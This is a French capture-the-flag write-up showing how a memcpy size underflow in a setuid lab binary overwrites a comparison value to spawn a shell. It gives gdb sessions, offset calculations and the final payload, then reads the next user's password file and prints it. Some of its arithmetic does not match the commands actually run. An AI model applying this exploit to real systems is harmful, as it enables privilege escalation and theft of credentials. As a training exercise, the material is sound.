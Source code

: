 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

 1. Notre premier argument doit-être inférieur à 10.
 2. Notre premier argument doit-être égal à  `0x574f4c46`  soit  `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	memcpy(buffer, argv[2], (len(argv[1]) * 4));
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Il y a une contradiction entre ces deux conditions. Cela nous semble impossible d'arriver jusqu'au `bin/sh`. Visiblement la seule chose qui nous permettent de réaliser un exploit est le `memcpy`.

Voici le prototype de la fonction `memcpy`:
```
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque que c'est `non signé`.

On peut donc faire un `underflow` et faire copier un nombre d'octets assez grand à `memcpy` pour écraser notre valeur de comparaison. 
Voyons tout ça dans `gdb`.

```
> gdb ./bonus1
[...]
> (gdb) disass main 
[...]
	0x08048470 <+76>:	mov    %eax,(%esp)
	0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
	0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
[...]
```
On voit un call a `memcpy`. On va donc `break` juste après, sur la comparaison et lancer le programme avec différentes valeurs.
```
> (gdb) break *0x08048478
[...]
> (gdb) r 8 A
[...]
> (gdb) x/16wx $esp
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
> (gdb) x $esp
0xbffff6b0:	0xbffff6c4
> (gdb) x $esp+0x3c
0xbffff6ec:	0x00000008
```
On affiche `esp` juste après l'appel à `memcpy`. Au moment de la comparaison, on peut voir `0x00000020` (32 en base 10). 
Nous avons mis `8` comme premier argument. On a `break` après `memcpy`, donc la multiplication par 4 s'est effectuée. `8 * 4 = 32`. 
`0x00000020` correspond donc bien à notre premier argument saisis après la multiplication par 4.
Lorsqu'on affiche `esp`, on obtient l'adresse de notre début de `buffer` : `0xbffff6c4`.
Lorsqu'on affiche `esp+0x3c`, donc ce qui correspond a notre comparaison,  on obtient `0xbffff6ec` : `0x00000008`. Nous avons donc ici notre adresse de comparaison : `0xbffff6ec` et notre premier argument `0x00000008` (8 en base10).

Nous voulons maintenant savoir quelle valeur nous devons mettre afin que notre programme exécute bien un `shell`. 
Nous avons notre `adresse de cmp` ainsi que notre `adresse de début de buffer`.
Nous allons donc faire :
```
[Adresse de cmp] - [Adresse de début de buffer]
0xbffff6ec - 0xbffff6c4 = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
(gdb)x/20wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								 ^
								 Début du buffer (0xbffff6c4)
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											    ^
											    Fin du buffer (0xbffff6ec)
```

Sauf que notre dernière adresse n'est pas écrasée. On doit donc ajouter 4 octets pour avoir écraser l'adresse de comparaison. 

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va falloir écrire 11 fois la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec la valeur `int min` +  44.
```
-2147483647 + 44 = -2147483603
```

```
> (gdb) break *0x08048473
[...]
> (gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
> (gdb) continue
[...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```